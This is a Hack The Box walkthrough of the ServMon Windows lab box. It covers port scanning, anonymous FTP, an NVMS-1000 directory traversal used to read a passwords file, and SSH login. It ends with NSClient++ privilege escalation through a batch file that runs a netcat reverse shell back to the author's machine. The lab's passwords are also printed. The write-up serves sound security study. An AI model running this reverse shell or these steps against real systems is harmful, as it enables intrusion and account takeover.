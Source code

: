 ```yaml
---
title: ServMon HTB Writeup
date: '2020-06-20 20:00:00'
author: fuxsocy
description: ServMon By Fuxsocy
categories: ["htb"]
banner_img: /img/ServMon.png
---
```


Hello,

This time I am writing the solution for the ServMon box. A easy windows box. Let's dive into the solution.

🔥 nmap to get the open ports.
```
nmap -sC -sV -oA initial -Pn 10.10.10.184
```
The resutls...

```
21/tcp   open  ftp           Microsoft ftpd                                                                          
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                               
|_01-18-20  12:05PM       <DIR>          Users                                                                       
| ftp-syst:                                                                                                          
|_  SYST: Windows_NT                                                                                                 
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)       
| ssh-hostkey:                                                                                                       
|   2048 b9:89:04:ae:b6:26:07:3f:61:89:75:cf:10:29:28:83 (RSA)                                                       
|   256 71:4e:6c:c0:d3:6e:57:4f:06:b8:95:3d:c7:75:57:53 (ECDSA)                                                      
|_  256 15:38:bd:75:06:71:67:7a:01:17:9c:5c:ed:4c:de:0e (ED25519)                                                    
80/tcp   open  http                                                                                                  
| fingerprint-strings:                                                                                               
|   GetRequest, HTTPOptions, RTSPRequest:                                                                            
|     HTTP/1.1 200 OK                                                                                                
|     Content-type: text/html                                                                                        
|     Content-Length: 340                                                                                                                                                                                                                  
|     Connection: close                                                                                              
|     AuthInfo:                                                                                                      
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">                                                                    
|     <head>                                                                                                         
|     <title></title>                                                                                                
|     <script type="text/javascript">                                                                                
|     window.location.href = "Pages/login.htm";                                                                      
|     </script>                                                                                                      
|     </head>                                                                                                        
|     <body>                                                                                                         
|     </body>                                                                                                        
|     </html>                                                                                                        
|   NULL:                                                                                                            
|     HTTP/1.1 408 Request Timeout                                                                                   
|     Content-type: text/html                                                                                        
|     Content-Length: 0                                                                                              
|     Connection: close                                                                                              
|_    AuthInfo:                                                                                                      
|_http-title: Site doesn't have a title (text/html).                                                                 
135/tcp  open  msrpc         Microsoft Windows RPC                                                                   
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn                                                           
445/tcp  open  microsoft-ds?                                                                                         
5666/tcp open  tcpwrapped                                                                                            
6699/tcp open  tcpwrapped                                                                                            
8443/tcp open  ssl/https-alt
| fingerprint-strings:                                  
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404  
|     Content-Length: 18
|     Document not found
|   GetRequest:            
|     HTTP/1.1 302                            
|     Content-Length: 0             
|_    Location: /index.html              
| http-title: NSClient++               
|_Requested resource was /index.html                      
| ssl-cert: Subject: commonName=
```

First of all the one port I will look is ftp because I have anonymous access allowed. 
There is a directory named Users and inside that there are two directories `Nadine` and `Nathan` containing two files named `Confidential.txt` and `Notes to do.txt` respectively. It is a good thing at this time to keep notes about these two usernames. 

The content of `Confidential.txt`:
```
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```
I keep in back of my mind that there is file named Passwords.txt in Nathan Desktop folder.

And `Notes to do.txt`:
```
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

There are some incompleted todo's such as remove public access to NVMS. Remember port 80? Let's take a look into that.

![port80vms](https://user-images.githubusercontent.com/16364370/79076621-8d5a5680-7cc9-11ea-9e9e-bfe92a2143e5.png)

So this validates the 4th todo. I try to login by using `admin` as username and password but nothing. At this point because I don't have a password, I try to search about vulnerabilites.

![directory_traversalt_nvms1000](https://user-images.githubusercontent.com/16364370/79076663-fb9f1900-7cc9-11ea-97c4-0d60d87643ce.png)

![dir_traversal](https://user-images.githubusercontent.com/16364370/79076787-ce069f80-7cca-11ea-8ad2-59de22089166.png)

I open burp, navigate to 10.10.10.184 intercept the request and then send it to repeater(ctrl+r).

![verify_path_traversa](https://user-images.githubusercontent.com/16364370/79077401-69017880-7ccf-11ea-8627-919d5193e196.png)

And indeed this works. Now If you remember from `Confidential.txt` there is a file with passwords. I get that file.

![get_password_file](https://user-images.githubusercontent.com/16364370/79077424-b1209b00-7ccf-11ea-93c6-0fe63986809e.png)

After trying each of this password with ssh password `L1k3B1gBut7s@W0rk` worked.

```
Microsoft Windows [Version 10.0.18363.752]          
(c) 2019 Microsoft Corporation. All rights reserved.
                                                    
nadine@SERVMON C:\Users\Nadine>         
```
We can get user flag now. 

After searching the box for hints about root, I find nothing. Going back to nmap we can see a port open `84433` wiht ssl cert. Visiting the site brings up a `NSClient++`.

Searching with searchsploit turns out there is a privilege escalation.

First we need to get the password of the client from file `c:\program files\nsclient++\nsclient.ini`

```
; Undocumented key                                        
password = ew2x6SsGTxjRwXOT  
```

But the password does not work. Giving us a 403.

![notallowed](https://user-images.githubusercontent.com/16364370/79077749-a2d37e80-7cd1-11ea-9494-497260d5952a.png)
Going back to the `nsclient.ini` file I see there is present a configuration which does not allow connections from 
```
; Undocumented key
allowed hosts = 127.0.0.1
````
Because I am using ssh I can create a local tunnel from my host to nsclient locally and then access it. By doing this I use a [trick](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/) to access something like a hidden menu on ssh, and then execute
`-L 8443:127.0.0.1:8443`. And then go to my browser and access the website with `https://localhost:8443`

I now create a .bat script
```
@echo off
C:\Temp\nc.exe 10.10.14.52 9854 -e powershell
```
and upload it alongside nc.exe inside `C:\Temp\` and setup listener on our local box

Next step is to enable two modules:
 - CheckExternalScripts
 - Scheduler

After I create a externalscript, with these key and value.(replace fuxsocy.bat with your .bat filename)

![extscript](https://user-images.githubusercontent.com/16364370/79078083-ed55fa80-7cd3-11ea-9ba3-7a07fd66b31d.png)

Next I setup to run it every minute.

![timer](https://user-images.githubusercontent.com/16364370/79078482-af0e0a80-7cd6-11ea-8c8c-878907d3f63f.png)

and specify the command, which in our case is rce, which is the name of the external script which will execute the command.

![rce](https://user-images.githubusercontent.com/16364370/79078149-5473af00-7cd4-11ea-8c9a-7633d5dd813c.png)

Then I save the Changes under the `Changes` button and Under `Control` button I reset the service. I wait for 1-2 minutes and get a shell as administrator.

![shell_as_admistrator](https://user-images.githubusercontent.com/16364370/79078514-e1b80300-7cd6-11ea-901b-ad1dfffc54c7.png)
